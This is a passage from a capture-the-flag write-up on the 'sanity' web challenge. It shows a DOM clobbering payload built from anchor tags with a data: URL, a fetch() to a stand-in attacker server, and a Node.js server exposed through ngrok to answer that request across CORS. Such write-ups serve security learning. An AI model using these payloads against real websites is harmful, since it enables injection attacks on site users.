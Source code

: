 will actually be

```js
fetch("https://attacker_server");
```

Side note: The [official solution](https://gist.github.com/voxxal/fb69443f0a31bc6f2ddbce763d609935#sanity) from the challenge author used a different technique. By specifying the `data` value, they were able to assign the desired JSON object directly.

```js
<a id=debug><a id=debug name=extension href='data:;,{"report": true}'>
```

If, like me, you were using a `SimpleHTTPServer` with python, exposed via `ngrok` then you'll notice you didn't receive a request.

Checking the console again, you'll see why.

> Access to fetch at `https://ATTACKER_SERVER/` from origin `https://sanity.amt.rs` has been blocked by `CORS` policy: **No 'Access-Control-Allow-Origin' header is present on the requested resource**. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.

There's various ways we can add this header, e.g. launching `ngrok` with `--request-header-add "Access-Control-Allow-Origin: *"`.

In this case, I used a `nodejs` app (exposed via `ngrok`).

```js
const http = require("http");

const server = http.createServer((req, res) => {
    // Set the Access-Control-Allow-Origin header to allow requests from any origin
    res.setHeader("Access-Control-Allow-Origin", "*");

    // Send the response
    res.end("{}");
});

const port = 3000;
server.listen(port, () => {
    console.log(`Server listening on port ${port}`);
});
```

Now, when we refresh the page, our server gets a hit! However, when we check the report, there is no longer a report link 🤔

If we review the code again, the missing report link situation should be quite obvious.

```js
const debug = Object.assign(new Debug(true), extension ?? { report: true });
```

So, if extension exists, the `debug` object will be assigned it's properties (else, `report: true`). That has happened, but the JSON object sent by our server is currently `{}`.

Therefore, the properties of `debug` simply mirror the `Debug` class, the `debug.report` condition returns false and the report link is never created.
